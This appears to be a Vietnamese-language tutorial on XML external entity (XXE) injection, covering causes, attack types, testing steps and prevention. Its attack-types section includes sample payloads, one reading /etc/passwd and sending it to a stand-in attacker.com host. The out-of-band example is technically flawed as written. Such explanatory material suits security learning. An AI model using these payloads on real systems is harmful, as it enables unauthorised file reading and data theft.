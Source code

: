 # XML-external-entity-XXE-injection

## Overview:

### XML là gì:

`XML (Extensible Markup Language)` là một ngôn ngữ đánh dấu dựa trên văn bản được sử dụng để lưu trữ và truyền dữ liệu có cấu trúc. Nó là một công nghệ chung cho việc trao đổi dữ liệu giữa các hệ thống khác nhau và được sử dụng rộng rãi trong ứng dụng web.

XML sử dụng các thẻ đánh dấu để xác định cấu trúc và nội dung của dữ liệu. Mỗi thẻ bắt đầu bằng một ký tự `"<"` và kết thúc bằng ký tự `">"`. Thẻ có thể chứa văn bản hoặc các thẻ con bên trong nó. Dữ liệu trong XML được tổ chức thành cây phân cấp, trong đó các thẻ cha chứa các thẻ con và các thẻ con có thể chứa các thẻ khác.

```xml
<person>
  <name>John Doe</name>
  <age>30</age>
  <email>john@example.com</email>
</person>
```

Trong ví dụ trên, chúng ta có một phần tử `<person>` chứa ba phần tử con là `<name>`, `<age>`, và `<email>`. Mỗi phần tử con chứa dữ liệu tương ứng, chẳng hạn `<name>` chứa `John Doe`, `<age>` chứa `30`, và `<email>` chứa `john@example.com`.

XML cho phép người dùng tự định nghĩa các thẻ và cấu trúc dữ liệu phù hợp với nhu cầu của họ. Điều này giúp việc truyền và lưu trữ dữ liệu linh hoạt hơn và dễ dàng cho việc tương tác giữa các hệ thống khác nhau.

### External Entity (thực thể ngoại vi) là gì:

Trong ngữ cảnh của XML là một cơ chế cho phép tham chiếu và sử dụng dữ liệu từ các nguồn bên ngoài tài liệu XML hiện tại. Thực thể ngoại vi cho phép chèn dữ liệu từ các tệp tin, URL hoặc tài nguyên mạng vào trong tài liệu XML.

Trong XML, một thực thể ngoại vi được khai báo trong phần DTD (Document Type Definition) hoặc trong khai báo ENTITY. Nó có thể được định nghĩa bằng cách sử dụng một SYSTEM identifier (định danh hệ thống) để tham chiếu đến một nguồn bên ngoài.

Ví dụ về khai báo một thực thể ngoại vi trong DTD:
  
```xml
  <!DOCTYPE data [
  <!ENTITY externalEntity SYSTEM "http://example.com/data.xml">
]>
```
Trong ví dụ trên, externalEntity là tên của thực thể ngoại vi và `http://example.com/data.xml` là định danh hệ thống. Thực thể ngoại vi này tham chiếu đến tài liệu XML tại URL `http://example.com/data.xml`.

Thực thể ngoại vi trong XML có thể được sử dụng để chèn dữ liệu từ các nguồn bên ngoài vào tài liệu XML, nhưng cũng có thể gây ra các rủi ro bảo mật nếu không được xử lý đúng cách, như trong trường hợp của lỗ hổng XML External Entity (XXE) Injection.

### XXE là gì:
 
XXE là viết tắt của External Entity Expansion (mở rộng thực thể ngoại vi). Nó là một lỗ hổng bảo mật phổ biến trong các ứng dụng web, đặc biệt là trong các ứng dụng sử dụng XML để truyền và lưu trữ dữ liệu.

Khi một ứng dụng web không xử lý đầu vào XML đúng cách, tấn công XXE có thể cho phép kẻ tấn công chèn các thực thể ngoại vi (external entities) độc hại vào các tệp XML được sử dụng trong ứng dụng. Nhờ đó, kẻ tấn công có thể đọc các tệp hệ thống từ xa, thực hiện các cuộc tấn công phối hợp (coordinated attacks), và thậm chí thực hiện tấn công từ chối dịch vụ (DoS) bằng cách tăng cường đáng kể khối lượng công việc.

Các ứng dụng web cần kiểm tra và xử lý đầu vào XML một cách an toàn để ngăn chặn tấn công XXE. Cách phổ biến để ngăn chặn XXE là tắt tính năng mở rộng thực thể ngoại vi trong xử lý XML hoặc sử dụng bộ phân tích XML an toàn để đảm bảo chỉ các thực thể hợp lệ được xử lý.

## Nguyên do:
  
Lỗ hổng XXE (XML External Entity) phát sinh khi ứng dụng không xử lý đầu vào XML một cách an toàn. Dưới đây là một số nguyên nhân phổ biến dẫn đến sự tồn tại của lỗ hổng XXE:

- Không kiểm tra và xác thực đầu vào: Khi ứng dụng không thực hiện việc kiểm tra và xác thực đầu vào XML, các thực thể ngoại vi độc hại có thể được chèn vào tài liệu XML và được xử lý một cách không an toàn.

- Cho phép khai thác tính năng thực thể ngoại vi: Các ứng dụng một số ngôn ngữ hoặc thư viện XML cho phép mở rộng thực thể ngoại vi mặc định. Nếu tính năng này không được tắt hoặc kiểm soát cẩn thận, nó có thể tạo điều kiện cho việc khai thác lỗ hổng XXE.

- Tin cậy đối với dữ liệu không đáng tin cậy: Khi ứng dụng tin tưởng và xử lý dữ liệu XML từ nguồn không đáng tin cậy như người dùng hoặc bên thứ ba mà không kiểm tra tính toàn vẹn và đáng tin cậy của dữ liệu, lỗ hổng XXE có thể được khai thác.

- Sự phụ thuộc vào hàm xử lý XML không an toàn: Sử dụng các hàm xử lý XML không an toàn hoặc không được cập nhật có thể tạo điều kiện cho khai thác lỗ hổng XXE.

Để ngăn chặn lỗ hổng XXE, ứng dụng cần thực hiện các biện pháp bảo mật như kiểm tra và xác thực đầu vào, tắt tính năng mở rộng thực thể ngoại vi, sử dụng các bộ phân tích XML an toàn và giới hạn quyền truy cập đến các tài nguyên ngoại vi.
  
## Các loại tấn công XXE:
  
  Có 2 loại tấn công phổ biến:
  
  - Exploiting External Entity Declaration (In-band XXE)

Đây là loại tấn công XXE phổ biến nhất. Trong tấn công này, kẻ tấn công chèn một thực thể ngoại vi độc hại trực tiếp vào tài liệu XML. Thực thể ngoại vi này sẽ truy cập và đọc các tệp tin hoặc tài nguyên từ xa. Kết quả của việc đọc này sau đó có thể được trả về trong phản hồi từ máy chủ.

```xml
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "http://attacker.com/malicious-file">
]>
<data>&xxe;</data>
```

Trong ví dụ trên, kẻ tấn công chèn một thực thể ngoại vi xxe và truy cập tệp tin `malicious-file` từ xa thông qua URL `http://attacker.com/malicious-file`. Dữ liệu từ tệp tin này sẽ được đưa vào tài liệu XML và trả về trong phản hồi.
  
  - Exploiting Parameter Entities (Out-of-band XXE)
  
Loại tấn công này sử dụng các thực thể tham số (parameter entities) để khai thác XXE. Kẻ tấn công chèn một thực thể ngoại vi độc hại vào tài liệu XML, nhưng việc truy cập đến tệp tin hoặc tài nguyên từ xa không xảy ra trong quá trình phân tích cú pháp. Thay vào đó, dữ liệu được truyền qua kênh phụ, như gửi thông qua giao thức HTTP hoặc DNS.
 
```xml
  <!DOCTYPE data [
  <!ENTITY % xxe SYSTEM "file:///etc/passwd">
  <!ENTITY callhome SYSTEM "http://attacker.com/?data=%xxe;">
]>
<data>&callhome;</data>
```

Trong ví dụ trên, kẻ tấn công chèn một thực thể tham số `%xxe` để tham chiếu đến tệp tin `/etc/passwd`. Sau đó, dữ liệu từ tệp tin này được gửi đến máy chủ của kẻ tấn công thông qua URL `http://attacker.com/?data=%xxe;`.
  
Ngoài ra còn có:
  
  - Exploiting XXE to retrieve files, trong đó một thực thể ngoại vi được định nghĩa chứa nội dung của một tệp tin, và được trả về trong phản hồi của ứng dụng.
  
  - Exploiting blind XXE to retrieve data via error messages, trong đó kẻ tấn công có thể kích hoạt một thông báo lỗi phân tích chứa dữ liệu nhạy cảm.
  
  - Exploiting XXE to perform SSRF attacks,trong đó một thực thể ngoại vi được định nghĩa dựa trên một URL trỏ tới hệ thống backend.

## Làm thế nào để tìm và kiểm tra các lỗ hổng XXE (XML External Entity) vulnerabilities?

Để tìm và kiểm tra các lỗ hổng XXE, bạn có thể tuân theo các bước sau:

- Xem xét các điểm tiếp xúc với dữ liệu XML: Tìm hiểu các thành phần trong ứng dụng của bạn mà có thể tiếp nhận hoặc xử lý dữ liệu XML, chẳng hạn như các giao diện API, form đăng ký, tải lên tệp tin XML, hoặc cơ sở dữ liệu lưu trữ XML.

- Kiểm tra DTD (Document Type Definition): DTD được sử dụng để định nghĩa cấu trúc của tài liệu XML. Tìm hiểu xem ứng dụng của bạn có chấp nhận hoặc xử lý DTD từ nguồn không đáng tin cậy không. Nếu ứng dụng cho phép khai báo ENTITY trong DTD, điều này có thể dẫn đến lỗ hổng XXE.

 - Kiểm tra xem liệu ứng dụng có chấp nhận dữ liệu XML từ nguồn bên ngoài: Xác định liệu ứng dụng có chấp nhận hoặc xử lý XML từ nguồn không đáng tin cậy không. Nếu ứng dụng đọc và xử lý XML từ nguồn bên ngoài, điều này có thể tạo ra lỗ hổng XXE.

- Kiểm tra xem liệu ứng dụng có phản hồi với thông báo lỗi XML: Gửi các dữ liệu XML độc hại hoặc chứa thực thể ngoại vi đến ứng dụng và quan sát phản hồi của nó. Nếu ứng dụng trả về thông báo lỗi XML chứa thông tin nhạy cảm, điều này có thể chỉ ra sự tồn tại của lỗ hổng XXE.

- Kiểm tra các kịch bản khai thác XXE: Thử áp dụng các kịch bản khai thác XXE vào ứng dụng để xem liệu chúng có thành công hay không. Điều này bao gồm chèn thực thể ngoại vi, đọc các tệp tin từ xa, thực hiện các yêu cầu mạng, hoặc tấn công SSRF.

- Sử dụng công cụ kiểm tra tự động: Có nhiều công cụ kiểm tra tự động có sẵn để tìm và kiểm tra các lỗ hổng XXE. Các công cụ này có thể giúp tự động tìm kiếm, phân tích và kiểm tra các lỗ hổng XX

## Cách phòng ngừa các lỗ hổng XXE (XML External Entity) vulnerabilities:

Để phòng ngừa các lỗ hổng XXE, bạn có thể thực hiện các biện pháp bảo mật sau đây:

1. Sử dụng cơ chế xử lý XML an toàn: Sử dụng các thư viện và công cụ xử lý XML an toàn và tuân thủ các hướng dẫn và tiêu chuẩn bảo mật khi xử lý dữ liệu XML trong ứng dụng của bạn. Đảm bảo rằng các cơ chế này loại bỏ hoặc vô hiệu hóa khả năng đọc và xử lý DTD (Document Type Definition) hoặc thực thể ngoại vi.

2. Tắt tính năng DTD và thực thể ngoại vi: Trong quá trình xử lý XML, hãy đảm bảo rằng các tính năng DTD và thực thể ngoại vi đã được tắt hoặc vô hiệu hóa. Điều này có thể được thực hiện bằng cách cấu hình thư viện XML hoặc công cụ xử lý XML của bạn để không chấp nhận hoặc xử lý DTD hoặc thực thể ngoại vi.

3. Đầu vào và kiểm tra dữ liệu đầu vào: Luôn luôn kiểm tra và xác thực dữ liệu đầu vào từ người dùng hoặc nguồn bên ngoài trước khi chấp nhận và xử lý nó. Đảm bảo rằng dữ liệu đầu vào không chứa các thực thể ngoại vi hoặc các cấu trúc XML độc hại có thể khai thác lỗ hổng XXE.

4. Giới hạn quyền truy cập và quyền hạn: Thiết lập các quyền truy cập và quyền hạn phù hợp cho ứng dụng và các thành phần xử lý XML. Điều này đảm bảo rằng chỉ có quyền truy cập cần thiết vào các tệp tin, tài nguyên mạng và hệ thống ngoại vi mà ứng dụng cần để hoạt động.








  
  
